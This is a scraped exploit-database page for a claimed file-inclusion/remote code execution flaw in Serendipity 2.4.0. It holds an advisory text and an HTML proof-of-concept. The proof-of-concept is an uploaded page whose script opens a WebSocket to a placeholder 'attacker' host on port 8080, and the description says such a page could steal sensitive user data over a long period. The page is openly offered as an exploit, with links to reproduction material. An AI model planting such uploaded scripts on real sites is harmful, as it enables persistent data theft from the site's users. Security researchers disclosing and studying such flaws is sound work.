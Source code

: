 ```yaml
---
title: Serendipity 2.4.0 - File Inclusion Remote Code Execution Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38640&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-03
fetch_date: 2025-10-04T11:38:09.982396
---
```


# Serendipity 2.4.0 - File Inclusion Remote Code Execution Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Serendipity 2.4.0 - File Inclusion Remote Code Execution Exploit

2023-05-02 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38640
## Exploit Title: Serendipity 2.4.0 - File Inclusion RCE
## Author: nu11secur1ty
## Vendor: https://docs.s9y.org/index.html
## Software: https://github.com/s9y/Serendipity/releases/tag/2.4.0
## Reference: https://portswigger.net/web-security/file-upload
## Reference: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

## Description:
The already authenticated attacker can upload HTML files on the
server, which is absolutely dangerous and STUPID
In this file, the attacker can be codding a malicious web-socket
responder that can connect with some nasty webserver somewhere. It
depends on the scenario, the attacker can steal every day very
sensitive information, for a very long period of time, until the other
users will know that something is not ok with this system, and they
decide to stop using her, but maybe they will be too late for this
decision.

STATUS: HIGH Vulnerability

[+]Exploit:
```HTML
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<title>NodeJS WebSocket Server</title>
</head>
<body>
	<h1>You have just sent a message to your attacker,<br>
	<h1>that you are already connected to him.</h1>
<script>
const ws = new WebSocket("ws://attacker:8080");
ws.addEventListener("open", () =>{
  console.log("We are connected to you");
  ws.send("How are you, dear :)?");
});

ws.addEventListener('message', function (event) {
    console.log(event.data);
});
</script>
</body>
</html>

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/s9y/2023/Serendipity-2.4.0)

## Proof and Exploit:
[href](https://streamable.com/2s80z6)

## Time spend:
01:27:00

--
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.htmlhttps://cxsecurity.com/ and
https://www.exploit-db.com/
0day Exploit DataBase https://0day.today/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=nu11secur1ty <http://nu11secur1ty.com/>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)